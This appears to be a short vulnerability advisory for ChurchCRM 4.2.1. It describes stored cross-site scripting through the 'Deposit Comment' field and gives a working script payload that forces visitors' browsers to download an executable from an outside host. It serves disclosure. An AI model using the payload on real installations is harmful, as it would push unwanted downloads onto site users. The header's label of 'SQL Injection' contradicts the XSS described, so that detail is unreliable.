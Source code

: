 # ChurchCRM 4.2.1- Persistent Cross Site Scripting(XSS)

## Vendor Homepage: https://churchcrm.io/
## Software Link: https://github.com/ChurchCRM/CRM 

## Vulnerability Type :
SQL Injection


## Vulnerability Version :
Version: 4.2.1


## Recurring environment:
* Windows 10
* PHP 5.4.5
* Apache 2.4.23


## Vulnerability Description AND recurrence:

ChurchCRM application allows stored XSS , via 'Add new Deposit' module, that is rendered upon 'View All Deposits' page visit. There are multiple locations where this can be replicated To exploit this vulnerability:
 
   1. Login to the application, go to 'View all Deposits' module.
   2. Add the payload ( <script>var link = document.createElement('a');
   link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe';
   link.download = ''; document.body.appendChild(link); link.click();
</script> ) in the 'Deposit Comment' field and click "Add New Deposit".
   3. Payload is executed and a .exe file is downloaded.
